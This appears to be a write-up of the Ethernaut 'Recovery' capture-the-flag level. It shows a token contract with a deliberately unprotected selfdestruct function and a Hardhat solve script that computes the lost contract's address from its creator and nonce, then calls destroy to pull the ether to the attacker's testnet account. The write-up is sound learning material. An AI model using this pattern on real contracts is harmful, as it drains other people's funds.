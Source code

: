 ```yaml
---
title: "Ethernaut #17 Recovery"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Recovery challenge writeup
---
```


## Recovery

### Challenge

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

### Background

There is not much new stuff going on here. The main difficulty here is to identify the address of the `SimpleToken` contract that was created from the `Recovery` contract. This can be done manually using the block explorer.

#### Edit

After finishing the challenge and reading the success message I relized that I missed one step that could simplify things a bit. The address of a new contract instance can be computed using `keccack256(address, nonce)` where the `address` is the address of the contract that instiates them, and `nonce` is an incremental value. This is the case because the contract is created using the `create` opcode.

There is also another opcode, `create2`, which uses another way to generate the `address` such that it is predictable.

### Attack

Going through the block explorer its easy to find the contract that was created by the `Recovery` contract. This contract must be a `SimpleToken` contract and is the one we are looking for. The next step is simply to call the `destroy` function with the attacker account address to get the contract funds.

* Check the `Recovery` contract transactions [here](https://rinkeby.etherscan.io/address/0x8fa7f6be7f007f88d80cc7d95a30e53343967238#internaltx)
* Find the `SimpleToken` contract [here](https://rinkeby.etherscan.io/address/0xbfb528f5fe26e884621cfd14e3e72fefabd1767c)
* Call the `destroy` function with the attack account address as argument on the `SimpleToken` contract

#### Edit

Instead of doing the first two steps we could simply use `keccack256(address, nonce)` with the `address` of the `Recovery` contract and a `nonce` of `1`.

#### recovery-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    recoveryAddress = "0x8Fa7f6be7f007F88D80cC7D95a30e53343967238";
    // contract = await ethers.getContractAt("Recovery", recoveryAddress);

    // this address was manually found using the block explorer
    // simpleTokenAddress = "0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c";

    // =================== Edit ===================
    // calculate the contract address
    simpleTokenAddress = ethers.utils.hexDataSlice(
        ethers.utils.keccak256(
            ethers.utils.RLP.encode(
                [recoveryAddress, "0x01"]
            )
        ), 12, 32)
    // ============================================

    contract = await ethers.getContractAt("SimpleToken", simpleTokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address  : " + contract.address)
    console.log("Token Name     : " + await contract.name())

    // // get current balance
    console.log("Current Balance: " + await ethers.provider.getBalance(account.address))

    // trigger selfdestruct and return funds to account.address
    tx = await contract.connect(account).destroy(account.address)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance    : " + await ethers.provider.getBalance(account.address))

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/recovery-solve.js --network rinkeby
Level address  : 0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c
Token Name     : InitialToken
Current Balance: 137075271261352909
New Balance    : 137862327261352909
```

### Success Message

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the address is the `address` of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction `nonce`, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
